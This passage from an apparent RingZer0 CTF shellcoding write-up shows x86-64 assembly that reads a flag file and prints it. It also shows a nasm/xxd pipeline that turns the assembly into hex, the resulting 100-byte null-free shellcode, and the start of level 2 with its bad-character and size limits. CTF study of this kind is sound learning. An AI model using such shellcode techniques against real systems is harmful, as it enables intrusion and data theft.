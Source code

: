 ```
push byte 0x7f              ; read 127 bytes. if we stay below this value, the generated opcode will not contain null bytes
pop rdx
xor rax, rax                ; syscall read = 0
syscall

lea rsi, [rsp]              ; the contents of the file were on the stack
xor rdi, rdi
inc rdi                     ; filehandle; stdout!
mov rdx, rax                ; rax was amount of bytes read by syscall read
xor rax, rax
inc rax
syscall                     ; syscall write = 1

push byte 60                ; some bytes left...
pop rax                     ; exit cleanly
syscall

```

To assemble and generate the shellcode in the format which the challenge wants, I used this command:

```bash
$ echo; nasm -f bin ./level1-nonulls.asm; xxd -c 1 ./level1-nonulls | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./level1-nonulls

\xc7\x04\x24\x2f\x66\x6c\x61\xc7\x44\x24\x04\x67\x2f\x6c\x65\xc7\x44\x24\x08\x76\x65\x6c\x31\xc7\x44\x24\x0c\x2e\x66\x6c\x61\x6a\x67\x59\x89\x4c\x24\x10\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x0f\x05\x48\x89\xc3\x48\x8d\x34\x24\x48\x89\xdf\x6a\x7f\x5a\x48\x31\xc0\x0f\x05\x48\x8d\x34\x24\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31\xc0\x48\xff\xc0\x0f\x05\x6a\x3c\x58\x0f\x05
100 ./level1-nonulls
```

It spits out the shellcode, ready for copy & paste, along with the size of the shellcode. Running it versus the server yields the flag!

Level 2
-------

The password for level 2 is the flag of level 1. It seems the ante has been upped:

```
RingZer0 Team CTF Shellcoding Level 2
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\x2e\x62\x99" max size 50 bytes.
You main goal is to read /flag/level2.flag
```

So the previous shellcode goes right out the window. I needed to cut it in half, length-wise. Also, not all characters are allowed, so-called *bad chars*. This will restrict the instructions we can use in the shellcode. Let's have a look at how we can trim the fat off of the shellcode of level 1.
